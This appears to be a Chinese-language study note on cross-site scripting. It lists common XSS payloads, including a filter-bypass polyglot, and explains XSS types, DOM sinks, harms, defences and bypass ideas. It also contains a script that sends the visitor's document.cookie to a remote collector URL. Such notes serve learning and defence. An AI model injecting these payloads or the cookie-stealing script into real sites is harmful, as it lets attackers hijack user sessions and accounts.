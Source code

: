 ## 常用payload
```
<scripT>prompt`1`</Script>
"><img src="1" onerror=prompt(2)>
<svg/onload=globalThis[`conf`+/irm/.source]`1`// X->
<a onClick="javascript:aler\u0074(2)">xss</a>  //t用的native编码
<textarea autofocus onfocus=alert(1)>


jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(123456) )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
## XSS基础
	XSS是跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。
XSS分为 **储存型XSS**、**反射性XSS**、
**dom型XSS**
可能触发DOM型XSS的属性
document.write()
xxx.innerHTML=
document.location.replace()
document.referrer

	xss也是一种注入攻击，当web应用对用户输入过滤不严格，攻击者写入恶意的脚本代码（HTML、JavaScript）到网页中时，如果用户访问了含有恶意代码的页面，恶意脚本就会被浏览器解析执行导致用户被攻击

## 常用组合
==常用标签==\<a> \<body>\<iframe> \<img>\<script>\<svg>
==常用事件==
- 鼠标事件 \<onmousemove>\<onclick>\<onmouseover>
- 其他事件\<onerror>\<onfocus>\<onkeypress>\<onload>

==弹窗函数== alert() comfirm() prompt()

[XSS标签事件表](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
## XSS危害
网络钓鱼
窃取用户Cookies、弹广告刷流量、具备改页面信息、删除文章、获取客户端信息、传播蠕虫。
```
<script>
	document.write('<img src="http://192.168.1.1/xss/getcookie.php?cookie='+document.cookie+'" width=0 height=0 border=0/>');
</script>
```
## XSS防御
-  输入输出检查 
	-  首先是过滤。对诸如\<script>、\<img>、\<a>等标签进行过滤。
-   其次是编码。像一些常见的符号，如<>在输入的时候要对其进行转换编码，这样做浏览器是不会对该标签进行解释执行的，同时也不影响显示效果。  
-   最后是限制。通过以上的案例我们不难发现xss攻击要能达成往往需要较长的字符串，因此对于一些可以预期的输入可以通过限制长度强制截断来进行防御。
-  安全的编码函数
	- java: HtmlUtils.htmlEscape    [springboot安全编码解析](https://www.cnblogs.com/bcde/p/11527190.html)
	- php: htmlentities()、htmlentities()
- 缓解措施 httponly
## xss绕过
- 编码绕过原理应该是后端解析编码之类
- 大小写
## XSS平台
`https://xssaq.com/`
